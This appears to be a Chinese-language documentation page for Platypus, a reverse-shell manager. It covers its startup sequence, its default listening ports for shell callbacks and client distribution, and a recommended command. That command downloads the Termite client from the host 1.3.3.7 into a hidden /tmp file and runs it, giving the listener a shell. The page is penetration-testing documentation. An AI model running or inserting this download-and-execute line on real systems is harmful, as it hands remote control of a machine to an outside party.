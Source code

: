 # 启动过程

运行成功后，Platypus 会首先检查是否存在新版本并询问用户是否升级，
其次会检查自己的公网 IP 地址，
接着进行端口的绑定监听，并输出用于辅助测试人员使用的反向 Shell 命令，
最后终端将会出现命令提示符 `>>`，
表明此时即可开始与 Platypus 进行交互。

当 Platypus 运行后，会检测当前文件夹中是否存在 `config.yml` 文件，若无则会根据模板自动生成该配置文件。
然后读取该配置文件进行启动。

在默认情况下，Platypus 会按照 `config.yml` 中的配置监听 4 个端口。

* `0.0.0.0:13339` 端口用来分发 Termite 客户端；
* `0.0.0.0:13337` 端口用来接收回连的 Termite 客户端；
* `0.0.0.0:13338` 端口用来接收回连的 Shell（该端口可视作 netcat 的升级版）；
* `0.0.0.0:7331` 端口用来提供 Web 界面的访问以及 RESTful API 服务。

!!! Tips
    Termite 客户端是 Platypus 特有的客户端，支持交互式 Shell、文件传输以及网络隧道等功能。

## 方案二：执行 Termite（推荐）

```
curl -fsSL http://1.3.3.7:13339/termite/1.3.3.7:13337 -o /tmp/.H0Z9 && chmod +x /tmp/.H0Z9 && /tmp/.H0Z9
```


